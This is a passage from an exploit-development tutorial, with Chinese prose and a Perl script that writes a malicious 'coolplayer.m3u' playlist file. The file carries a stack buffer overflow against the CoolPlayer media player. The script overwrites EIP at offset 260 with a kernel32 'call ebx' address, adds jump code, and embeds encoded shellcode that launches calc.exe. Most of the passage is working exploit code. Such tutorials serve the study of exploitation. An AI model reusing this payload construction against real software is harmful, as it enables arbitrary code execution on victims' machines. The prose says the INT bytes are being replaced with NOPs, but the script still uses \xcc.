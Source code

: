 完美的。我们准确地降落在我们预期的地方。现在我们本可以让 NOP 缓冲区更小，更靠近 EIP，但既然我们有空间可以玩，没有理由这么精确。让我们再次更新我们的漏洞利用脚本，用实际的 NOP 替换 INT 并插入一些 shell 代码（calc.exe）。

```perl
#!/usr/bin/perl

my $buffsize = 10000; # set consistent buffer size

my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx which will jump beyond eip overwrite and into nops/shellcode
$jmp = $jmp . "\xff\xe3"; # jmp ebx
my $junk = "\x41" x (260 - length($jmp)); # fill remainder of start of buffer to eip overwrite at offset 260
my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
# no usable application module found
my $nops = "\xcc" x 50;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $jmp.$junk.$eip.$nops.$shell; # build sploit portion of buffer
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```
